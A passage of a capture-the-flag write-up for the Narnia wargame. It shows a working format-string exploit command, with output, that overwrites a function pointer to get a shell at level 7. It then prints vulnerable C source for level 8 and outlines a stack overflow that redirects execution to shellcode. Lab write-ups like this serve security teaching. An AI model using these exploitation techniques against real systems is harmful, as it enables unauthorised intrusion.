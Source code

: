 which is `6`. The LSB of `ptrf` is stored at `0xffffd68c` and our goal is to change it to `0x95` (which is 149 in decimal). Four bytes are already printed because of the address we specify in the beginning of the format string, thus we need to add another 145:

```
narnia7@melinda:/narnia$ ./narnia7 $(printf '\x8c\xd6\xff\xff')%145x%6\$hhn
goodfunction() = 0x804866f
hackedfunction() = 0x8048695

before : ptrf() = 0x804866f (0xffffd68c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
```

Notice that I used the `hh` specfier, which only writes one byte (the LSB in our case).

Level 8 (last):
---------------

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global unti i find a fix
// -morla
int i;

void func(char *b){
    char *blah=b;
    char bok[20];
    //int i=0;

    memset(bok, '\0', sizeof(bok));
    for(i=0; blah[i] != '\0'; i++)
        bok[i]=blah[i];

    printf("%s\n",bok);
}

int main(int argc, char **argv){

    if(argc > 1)
        func(argv[1]);
    else
        printf("%s argument\n", argv[0]);

    return 0;
}
```

There is nothing very obvious here, but notice that `bok` is just above the pointer to our string on the stack. Therefore, by carefully overflowing `bok` into `blah` we can change the base address from which bytes are read and written to `bok` (to the stack). We can use this to overwrite the return address of `func` and redirect execution to our shellcode, which we'll store in some environment variable.
